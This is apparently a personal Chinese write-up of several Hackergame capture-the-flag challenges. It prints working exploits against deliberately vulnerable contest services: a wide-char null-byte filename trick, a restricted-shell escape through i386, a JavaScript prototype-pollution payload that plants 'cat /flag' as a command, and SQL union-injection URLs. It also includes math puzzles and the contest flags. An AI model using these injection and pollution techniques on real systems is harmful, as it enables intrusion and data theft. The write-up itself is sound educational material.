




# 个人题解 第二部分

## 8. 不宽的宽字符

经过一番思考，他写出了下面这样的代码，用来读入文件名：

```cpp
// Read the filename
std::wstring filename;
std::getline(std::wcin, filename);
```

转换后要怎么打开文件呢？小 A 使用了 C++ 最常见的写法：

```cpp
// Create the file object and open the file specified
std::wifstream f(filename);
```

可惜的是，某些版本的 C++ 编译器以及其自带的头文件中，文件名是 char 类型的，因此这并不正确。这时候小 A 灵光一闪，欸🤓👆，我为什么不做一个转换呢？于是：

```cpp
std::wifstream f((char*)filename);
```

随便找了一个文件名测试过无误后，小 A 对自己的方案非常自信，大胆的在各个地方复用这段代码。然而，代价是什么呢？

--

现在你拿到了小 A 程序的一部分，小 A 通过在文件名后面加上一些内容（`you_cant_get_the_flag`），让你不能读取藏有 flag 的文件。

你需要的就是使用某种输入，读取到文件 `theflag` 的内容（完整位置是：`Z:\theflag`）。

> 注：为了使得它能在一些系统上正确地运行，我们使用 Docker 作了一些封装，并且使用 WinAPI 来保证行为一致，不过这并不是题目的重点。

### 做法

看样子应该是要让文件名里直接出现一个 `'\0'`，导致后面加上的字符串直接失效。

正好，你用的 WinAPI。我们直接拿到 Windows 下面编译看看行为。为了方便观察，我们将最后尝试打开文件的部分注释掉，直接将转换后的字符串打出来。

```cpp
    // Convert to WIDE chars
    wchar_t buf[256] = { 0 };
    MultiByteToWideChar(CP_UTF8, 0, inputBuffer, -1, buf, sizeof(buf) / sizeof(wchar_t));

    std::wstring filename = buf;

    // Haha!
    filename += L"you_cant_get_the_flag";

    FILE *fp_dump = fopen("filename.bin", "w");
    fprintf(fp_dump, "%s", (char*)filename.c_str());
```

先随便输入一个，比如 `/theflag`。看看输出。

```plain
/
```

后面全都被截掉了，看来是已经出现 `'\0'` 了。我们先抛开越界访问不谈，强行打出 100 个字节看看。

```cpp
    FILE *internal_bin_dump = fopen("dump.bin", "w");
    fwrite((char*)filename.c_str(), sizeof(char), 100, internal_bin_dump);
```

_注：在 Windows 中，由于内存管理机制与 Linux 不同，少量越界访问不会导致程序立刻爆炸。_

再看看这个 `dump.bin`，

```plain
00000000  2f 00 74 00 68 00 65 00  66 00 6c 00 61 00 67 00  |/.t.h.e.f.l.a.g.|
00000010  0d 00 79 00 6f 00 75 00  5f 00 63 00 61 00 6e 00  |..y.o.u._.c.a.n.|
00000020  74 00 5f 00 67 00 65 00  74 00 5f 00 74 00 68 00  |t._.g.e.t._.t.h.|
00000030  65 00 5f 00 66 00 6c 00  61 00 67 00 00 00 00 00  |e._.f.l.a.g.....|
00000040  00 00 00 00 00 00 00 00  7f 6e 96 ee c3 9a 00 08  |.........n......|
00000050  ff ff ff ff ff ff ff ff  ff ff ff ff 00 00 00 00  |................|
00000060  00 00 00 00                                       |....|
00000064
```

看起来 `wstring` 内部是用 UTF-16 小端序存储的。例如 `/` 对应 `\u002f`，于是编码为 `2f 00`。那么接下来的任务就非常简单了，按 UTF-16 构建字符，使得字节形式恰好是 `Z:\theflag` 再加一个 `'\0'`。

```python
chars = 'Z:\\theflag'
[
    hex(ord(c))
    for c in chars
]
```

```plain
['0x5a', '0x3a',
 '0x5c', '0x74',
 '0x68', '0x65',
 '0x66', '0x6c',
 '0x61', '0x67']
```

接下来把它们两个一组倒序写成 Unicode。为了保证最后是 `'\0'`，我们不妨再加上 `['0x00', '0x32']`（这个 `0x32` 可以任选）。

```python
'\u3a5a\u745c\u6568\u6c66\u6761\u3300'
```

```plain
㩚瑜敨汦条㌀
```

接下来把这个输入到程序中验证一下。

```plain
00000000  3f 00 14 89 fd ff fd ff  45 00 fd ff fd ff 3f 00  |?.......E.....?.|
00000010  0d 00 79 00 6f 00 75 00  5f 00 63 00 61 00 6e 00  |..y.o.u._.c.a.n.|
00000020  74 00 5f 00 67 00 65 00  74 00 5f 00 74 00 68 00  |t._.g.e.t._.t.h.|
00000030  65 00 5f 00 66 00 6c 00  61 00 67 00 00 00 00 00  |e._.f.l.a.g.....|
00000040  00 00 00 00 00 00 00 00  b3 8e f5 60 3d ca 00 08  |...........`=...|
00000050  ff ff ff ff ff ff ff ff  ff ff ff ff 00 00 00 00  |................|
00000060  00 00 00 00                                       |....|
00000064
```

和预期不同，似乎是因为我们的字符直接出现了乱码。这是由于 Windows 控制台默认编码是区域编码 GBK（如果没有在区域设置中打开实验性 UTF-8 支持）。因此，在执行程序前必须进行 `chcp 65001` 切换到 UTF-8 模式。题目所用的 Wine 环境肯定是 UTF-8 模式的。



在题目环境内输入 `㩚瑜敨汦条㌀` 即可。

### Flag

```plain
flag{wider_char_isnt_so_great_a75c6ff03d}
```

Wide char isn't so great.\
明明是你不会正确使用 : (

问题来了，小 A “随便找了一个文件名测试过无误”，那么是什么文件名能测试无误呢？总不能是 `a` 吧

## 9. PowerfulShell\*

```bash
#!/bin/bash

FORBIDDEN_CHARS="'\";,.%^*?!@#%^&()><\/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0"

PowerfulShell() {
    while true; do
        echo -n 'PowerfulShell@hackergame> '
        if ! read input; then
            echo "EOF detected, exiting..."
            break
        fi
        if [[ $input =~ [$FORBIDDEN_CHARS] ]]; then
            echo "Not Powerful Enough :)"
            exit
        else
            eval $input
        fi
    done
}

PowerfulShell
```

flag 位于根目录 `/` 下。

### 做法

看来就是一个有一堆不能用的字符的 shell，然后要试图执行列出目录、读取文件的操作。在开始前，我们先弄清楚哪些 ASCII 字符**可以**用。

```python
forbidden_chars = {
    c
    for c in "'\";,.%^*?!@#%^&()></abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0"
}
print(''.join(sorted(forbidden_chars)))
usable_chars = {
    chr(x)
    for x in range(32, 127)
}.difference(forbidden_chars)
print(''.join(sorted(usable_chars)))
```

```plain
$+-123456789:=[]_`{|}~
```

看来剩的不多了。首先是读一下[文档](https://www.gnu.org/software/bash/manual/bash.html)熟悉这些字符。

相比试图构造出 `ls` `cat /flag`，运行 `sh` `bash` 或者类似的命令，再在新的 shell 里执行操作显然更加可行。由于 `\` 已经没了，想通过字符的 ASCII 码重建字符也是不太可能的了，因此我们先看看有哪些特殊变量可以为我们提供有用的字符。

```plain
$- : hB (终端模式选项)
$$ : 7 (shell的PID，似乎永远是7)
$_ : input (上一条命令的最后一个参数)
$1 : (空白)
```

<!--$$-->

这么看来 `PowerfulShell.sh` 是直接通过 shebang 执行的，因此 `$0` 就是 `/players/PowerfulShell.sh`，使用 `${0:23:2}` 语法就可以从里面截取出 `sh`，这样就能打开新的 shell 了。但是 `0` 被禁了，怎么获得 `0` 呢？

获得 `0` 最直观的方法是数学运算，但是根据文档，数学运算要放在 `$(())` 里面，必须使用小括号。文档也提到，`if` 的条件可以放在 `[]` 或者 `[[]]` 里（有两套不同的条件解释器）。那么，能否玩点奇技淫巧，把它们合起来呢？

```plain
PowerfulShell@hackergame> $[1==2]
/players/PowerfulShell.sh: line 16: 0: command not found
PowerfulShell@hackergame> 
```

确实可以。事实上，根据民间的一些资料，`$[]` 也是数学运算的括号。想要获得 `0`，直接用空的数学运算 `$[]` 就行。

但是，将 `$[]` 直接放到变量调用语法里，是没有用的。

```plain
PowerfulShell@hackergame> ${$[]:23:2}
PowerfulShell@hackergame> /players/PowerfulShell.sh: line 16: ${$[]:23:2}: bad substitution
```

不过我们注意到，将 `$[]` 用作下标是可以的。

```plain
PowerfulShell@hackergame> ${_:1:2}
/players/PowerfulShell.sh: line 16: np: command not found
```

查阅资料得知，要使用动态生成的变量名，必须先将这个**变量名**存为新的变量（例如 `a`），然后用 `${!a}` 调用。但是 `!` 也 ban 了，还能怎么样呢？

现在利用 `$-` `$_`，以及下标 `0`（`$[]`），我们已经可以获得额外的字符 `Bhinptu`。说不定，用这些字符已经可以执行一些有用的命令了。我们随便开一个 GNU/Linux 环境，`ls` 一下看看 `/bin` 里面有什么。

<a name="superior-attention"></a>



尽管这些字符能拼出的命令还是极为有限，但并非没有。`i386` 就是一个。为什么会有这种命令呢？难道是指令集调试工具？不管了，先看看。

```plain
root@ada3e8c30aa2:/# i386
#
```

啊？这不 shell 吗？

```plain
root@ada3e8c30aa2:/# i386
# ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

还真是！那么问题就直接解决了。

```plain
PowerfulShell@hackergame> ${_:$[]:1}386
ls /
<...>
cat /flag
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_94eeda44fa}
```

_（不知为何，题目环境里的 i386 shell 没有提示符 `$` 或者 `#`）_

### Flag

```plain
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_94eeda44fa}
```

Now I admit ur truly shell master.

那么这个 `i386` 究竟是什么呢？man page 中的页面是 `setarch(8)`，描述是 setarch modifies execution domains and process personality flags。反正会用新的环境配置打开一个 shell 就是了。

## 10. Node.js is Web Scale

小 Q 最近在写 Node.js，需要一个键值数据库来存储数据。

~~众所周知~~，其他的数据库无论如何都需要 write to disk，所以它们 don't scale。直接写到 `/dev/null` 嘛，虽然性能很好，但是好像就拿不到写入的数据了。基于这个想法，小 Q 利用最新最热的~~还没跑路的~~大语言模型，生成了一段内存数据库的 Node.js 代码，绝对 web scale！

注：这题的页面是个 Web-Scale KV Store 的 Demo。核心存储机制如下：

```js
let store = {};

// POST /set - Set a key-value pair in the store
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});
```

其余部分略，见题目存档仓库。

### 做法

这个数据存储逻辑犯了一个 JavaScript 初学者（尤其是 Python 转过去的）经常犯的错误：直接用对象当 KV Store 存储数据。至少不应该在 `key` 受用户控制且不加过滤的情况下直接这么用。

我们知道，在 JavaScript 中，`{}` 是创建一个空白对象（继承 `Object.prototype`），而非创建一个“字典”。由于继承了 `Object` 的原型属性，它是“不干净”的。直接用 `[]` 来访问数据，就会意外访问到这些继承属性（JS 中 `[]` 访问属性效果与 `.` 类似），包括但不限于 `constructor` `__proto__` `__defineGetter__` 等等，而这些东西，通过别的属性连接着 JavaScript 的各种“标准库”内容。

JavaScript 的“标准库”内容大部分是不加保护的。例如，我们在网页上执行这个操作，可以替换掉一个（至少对于 Web 服务器）非常重要的函数——`String#split`，导致环境直接崩溃。

```plain
SET
    constructor.name.__proto__.split
    eat_flaming_garbage

- 访问 `{}.constructor`，这是 `Object` 的构造函数。
- 访问构造函数的名称，这是字符串。
- 访问字符串类的原型。
- 替换掉 `split` 方法。
```

_（幸好有关闭环境按钮，不然就死档了）_

我们的请求是通过 JSON 发给服务器的，因而我们无法掉包函数，只能将函数覆盖掉让程序崩溃，所以单单这一点显然还不足以读取 `flag`。不过，程序中还有另一个功能引入注目，那就是输出自己的源代码（下载题目的源代码就是靠这个功能）。

```js
let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});
```

一个简单的读取源代码，为何大动干戈执行 `cat` 实现呢？这里还有一条声称“obviously safe”的滑稽注释，肯定就是突破口了。有没有什么访问链，可以从 `store` 开始访问到 `cmd` 在里面做修改呢？看来并没有。

注：有一种访问上层的方式是通过 `caller`，但是 `caller` 在这种情况下没法用，并且根据文档，`caller` 访问不到全局作用域。

但是，再仔细观察可以发现，这里的 `cmds` 作为字典，犯了同样的错误。`cmds` 也会继承 `Object` 的原型，因此只需要在原型里安装大↓炮就行了。

<a name="really-redundant"></a>

```plain
SET
    constructor.name.__proto__.split.__proto__.__proto__.ccb
    cat /flag
```

然后执行 `ccb` 命令。

```plain
https://chal03-[redacted].hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=ccb
```

flag 就显示出来了。

当然，上面这个多此亿举了。只要直接访问 `{}` 的原型就行了。

```plain
SET
    __proto__.ccb
    cat /flag
```

### Flag

```plain
flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_6b7c4a8816}
```

No protopoil(?)! So use `new Map` instead of object to KV.

在有 `Map` 之前，另外一种方式是 `null` 原型对象，不会继承任何属性，包括 `__proto__`。可以这样创建：

```js
var obj = {}
Object.setPrototypeOf(obj, null)
```

总之不能为了图方便直接用 `{}` 当“字典”就是了。

## 11. PaoluGPT

在大语言模型时代，几乎每个人都在和大语言模型聊天。小 Q 也想找一个方便使用的 GPT 服务，所以在熟人推荐下，他注册了某个 GPT 服务，并且付了几块钱。只是出乎小 Q 意料的是，他才用了几天，服务商就跑路了！跑路的同时，服务商还公开了一些用户的聊天记录。小 Q 看着这些聊天记录，突然发现里面好像有 flag……

注：题目页面是一个聊天记录列表（有几千条），用户可以点进去查看。显示聊天记录的服务端源代码可供下载。

### 做法

几千条聊天记录，总不能一个个点开看吧？


当然，可以用爬虫花点时间把每个聊天记录都爬下来，但这肯定不是最好的做法。既然给了服务端源代码，里面肯定暗藏玄机。

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

这里查看聊天记录内容用了 SQL，并且既没有预编译语句也没有转义，因此可以实施注入攻击。如果输入 `' union select title, contents from messages where contents like '%flag%`，语句就会变成这样：

```plain
select title, contents from messages where id = '' union select title, contents from messages where contents like '%flag%'
```

就可以直接筛选到含有 `flag` 字样的聊天记录。访问对应网址：

```plain
/view?conversation_id=' union select title, contents from messages where contents like '%flag%
```

<a name="reverse-solving"></a>

我们看到了一条聊天记录。滚动条翻到最底下，可以找到一个 flag。事实证明这是第二问的 flag。那么第一问的在哪呢？再看一下代码，

```python
@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)
```

看起来消息列表只会列出 `shown = true` 的聊天记录，而我们刚刚完成的第二问名字叫“窥探未知”，所以可能是找到了一个隐藏聊天记录。接下来我们把 `shown = true` 加到注入的查询条件中，应该就能得到第一个 flag。

```plain
/view?conversation_id=' union select title, contents from messages where shown = true and contents like '%flag%
```

确实，也在页面最底下。

### Flags

```plain
flag{zU1_xiA0_de_11m_Pa0lule!!!_495ea147d1}
flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_0648f44712}
```

最小的 LLM 跑路了！！！\
~~江南皮革厂倒闭了~~（bushi

Enjoy your sql & I would 下周回国\
应该指的是 PaoluGPT 下周恢复（确信


## 12. ~~强大的正则表达式~~

_完成 1/3_

「正则表达式可以用来计算取模和 CRC 校验……」

注：题目会随机均匀生成 0 到 2^64 的整数，三问的要求分别如下：

1. 判断十进制数是否被 16 整除。
2. 判断二进制数是否被 13 整除。
3. 判断十进制数的 gsm3 crc 是否为 0。

只能使用 `0123456789()|*` 字符，长度上限 `1000000`。匹配使用 `fullmatch` 模式。

### 做法

我们知道 $16 \times 625 = 10000$，因此判断是否被 $16$ 整除只需要看最后四位。枚举所有情况即可。

```python
print('(0|1|2|3|4|5|6|7|8|9)*(' + '|'.join(items) + ')')
```

```plain
(0|1|2|3|4|5|6|7|8|9)*(0000|0016|0032|0048|0064|0080|0096|0112|0128|0144|0160|0176|0192|0208|...)
```

对于第二问，可以用分治方法生成枚举所有情况的表达式，但是长度为 2941183，不符合要求。尝试的代码和表达式见[此处](./powerful-regex/)。这个方法的问题似乎在于没有充分利用整除 13 的性质以及 `*` 字符。

### Flag

```plain
flag{p0werful_r3gular_expressi0n_easy_7718a2fbcd}
```

Powerful regular expression easy

## 13. ~~惜字如金 3.0~~

_完成 1/3_

题目略

注：要求是还原被处理过的代码，然后直接提交代码文件。

### 做法

第一问直接按照 IDE 提示补全代码中缺失字符即可。

### Flag

```plain
flag{C0mpl3ted-Th3-Pyth0n-C0de-N0w}
```

Completed the Python code now!

有趣的是，这个代码似乎正是服务端用来验证代码提交是否正确并给出 flag 的逻辑源代码。后面两问也是如此（但需要还原的东西涉及密码学内容）。

## 14. 优雅的不等式\*

> 注意到
>
> $$
> e^2-7 = \int_0^1 (1-x)^2 \cdot 4x^2 \cdot e^{2 x} \mathrm{d}x > 0
> $$

你的数学分析助教又在群里发这些奇怪的东西，「注意力惊人」，你随手在群里吐槽了一句。

不过，也许可以通过技术手段弥补你涣散的注意力。

你需要用优雅的方式来证明 $\pi$ 大于等于一个有理数 $p / q$。

具体来说就是只使用整数和加减乘除幂运算构造一个简单函数 $f(x)$，使得这个函数在 $[0,1]$ 区间上取值均大于等于 $0$，并且 $f(x)$ 在 $[0,1]$ 区间上的定积分（显然大于等于 $0$）刚好等于 $\pi - p / q$。

给定题目（证明 $\pi \geq p / q$），你提交的证明只需要包含函数 $f(x)$。

- 要优雅：函数字符串有长度限制（400），
- 要显然：SymPy 能够快速计算这个函数的定积分，并验证 $[0,1]$ 上的非负性。

注：两问的要求分别如下，

1. 完成前两个问题，固定为证明 $\pi - 2 \geq 0$ 和 $\pi - \frac{8}{3} \geq 0$。代码中直接给出了第一题的一种答案 `4*((1-x**2)**(1/2)-(1-x))` 作为示例。
2. 完成一共 40 个问题，从第三问开始随机生成分数，且分数逐渐逼近 $\pi$。最后一个问题中，分数与 $\pi$ 的差距大约在 $2^{-200}$ 附近。

### 做法

第一个问题（难度 0）可以直接用示例输入过。将示例输入简单改造（把 $1-x$ 变成平方项，配平系数）得到 `4*(1-x**2)**(1/2)-4*(1-x)**(1/2)`，可以通过第二个问题。于是轻松拿到 flag1。

flag2 要求逼近到 $2^{-200}$，这不是随便瞎改造可以做到的。我们看到，示例输入中用来生成 $\pi$ 函数是 $\sqrt{1-x^2}$，性质并非很优美。我们改用同样可以生成 $\pi$ 的一个老生常谈的函数——$\frac{1}{1+x^2}$。这是 $\arctan(x)$ 的导数。

最理想的情况下，我们应该构建出一个母体函数 $h(x)$，它在 $[0,1]$ 上的最小值已经足够接近 $\pi$，从而要证明 $\pi \geq p / q$ 的时候，我们只需要拿 $h(x) - p/q$ 作为例子。构建这个函数的一种方式是先找到非负函数 $g(x)$，使得

$$
\int_0^1 g(x) = \pi - r
$$

足够接近 $0$，其中 $r$ 为有理数，然后取 $h(x) = g(x) + r$，这样 $h(x)$ 在 $[0,1]$ 上的最小值至少是 $r$。使这个积分无限趋近于 $0$ 的一种简单易操作的方法是

$$
g(x) = \frac{1}{1+x^2} - \mathcal{T}_p\left[\frac{1}{1+x^2}\right]
$$

其中 $\mathcal{T}_p$ 代表最高到 $p$ 次的 Taylor 展开。

我们知道，$\frac{1}{1+x^2}$ 的展开非常优美，是交错级数 $1-x^2+x^4-x^6+x^8-\cdots$。这个表达式甚至可以因式分解。例如，要获得最大到 $14$ 次的展开，只需要 $(1-x^2)(1+x^4)(1+x^8)$ 就行了。

但是，这个级数积分之后是 $1 - \frac{1}{3} + \frac{1}{5} - \frac{1}{7} + \cdots$，收敛太慢了。要收敛到 $2^{-200}$ 量级，就真的得展开到 $2^{200}$ 次。无论从长度限制还是计算耗时上，这都是不可接受的。我们需要对 $\frac{1}{1+x^2}$ 进行改造，使得展开变为

$$
1 - \frac{x^2}{p^2} + \frac{x^4}{p^4} - \frac{x^6}{p^6} + \frac{x^8}{p^8} - \cdots
$$

其中 $p>1$。对应的函数是 $\frac{p^2}{p^2+x^2}$。积分为

$$
\int_0^1 \frac{p^2}{p^2+x^2} \mathrm{d}x = \frac{\arctan \frac{1}{p}}{p}
$$

为了使得积分仍然和 $\pi$ 有关系，选择 $p = \sqrt{3}$。

经测试，要达到 $2^{-200}$ 精度，必须展开到 $254$ 次。我们写出函数 $g(x)$。

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32) * (1+(x*x/3)^64)
)
```

Sympy 可以很快计算出结果 $\pi$ 减去一个很长的分数，并判断其非负。

接下来我们要构建 $h(x)$，因此需要算出这串展开式的积分值 $r$。为了节省字符，我们把它放在外层括号里面。

```python
repr(integrate_0_1(
    "(1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32) * (1+(x*x/3)^64)"
))
```

```plain
69904050126696431178208813280267124532698100686392385483429346056535775665491693815664044902419516187031628823469767653908577966574524311594444093143720422896529664/77080245483722251948014407163786305119601458074214670327180229968183243978816172817090382572026759789577936173051445917800710394043318122553244672901673544472657625
```

这样字符数已经超过上限了，就算我们注意到分母有因子 $3^{128}$ 并利用这一点进行优化也无济于事。看来只能先展开到 $126$ 次，想别的办法弥补精度。

```python
repr(integrate_0_1(
    "(1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)"
))
```

```plain
1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1474169760474228400712829156128771864140669576959155127953235750321127007067811125
```

这个长度还是可以接受的。此外我们注意到分母有 $3^{63}$ 因子，因此还可以缩短一点，

```plain
1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1287978018036015777334466551354189481340554850313375/3^63
```

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
    + 1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1287978018036015777334466551354189481340554850313375/3^63
)
```

但是，现在出现了新的问题。Sympy 可以计算出积分值是 $\pi$，但在判断非负的时候会莫名卡死。这并不是因为这个分数过于复杂。经测试，这些写法都会导致卡死：

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
    + 1
)
```

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
    + x^2
)
```
```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
) + 3^(1/2)
```

但是这些不会：

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
) + 1
```

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
    + 3^(1/2)
)
```

看起来卡死似乎是因为后面添加的这一项与 Taylor 展开式部分可以合并同类项，导致 Sympy 无法快速判断展开式关系。我们不妨将其写成一个展开式里没有的 $129 \cdot x^{128}$ 项试试。

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
    + 129*x^128*1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1287978018036015777334466551354189481340554850313375/3^63
)
```

果然，这样写就完全没有问题。

最后再使得积分值减去 $p / q$，即可构造证明。鉴于刚才加上 $r$ 的时候添加的是 $129 \cdot x^{128}$ 项，现在也应该减去相同类型的项。

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
    + 129*x^128*1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1287978018036015777334466551354189481340554850313375/3^63
) - 129*x^128*<insert p/q value here>
```

正如刚才所说，我们妥协了精度，因此现在的精度不足以达到 $2^{-200}$。但是，我们注意到，减去的项修改成 $65 \cdot x^{64}$ 这样就可以了。

```plain
2*3^(1/2)*(
    3*(1/(3+x*x))
    - (1-x*x/3) * (1+(x*x/3)^2) * (1+(x*x/3)^4) * (1+(x*x/3)^8) * (1+(x*x/3)^16) * (1+(x*x/3)^32)
    + 129*x^128*1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1287978018036015777334466551354189481340554850313375/3^63
) - 65*x^64*<insert p/q value here>
```

_（别问怎么注意到的，问就是实践出真知）_

代价是什么呢？Sympy 判断非负的时间大概从 0.5s 延长到了 5s。为了节约时间，我们对于难度 0~21 的问题（即前 22 个）使用修改前的版本，后面的问题使用修改后的版本。

替换字符 `^` → `**` 并整理，得到我们的函数前缀：

```plain
2*3**(1/2)*(3*(1/(3+x*x))-(1-x*x/3)*(1+(x*x/3)**2)*(1+(x*x/3)**4)*(1+(x*x/3)**8)*(1+(x*x/3)**16)*(1+(x*x/3)**32)+129*x**128*1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1287978018036015777334466551354189481340554850313375/3**63)-129*x**128*
```

```plain
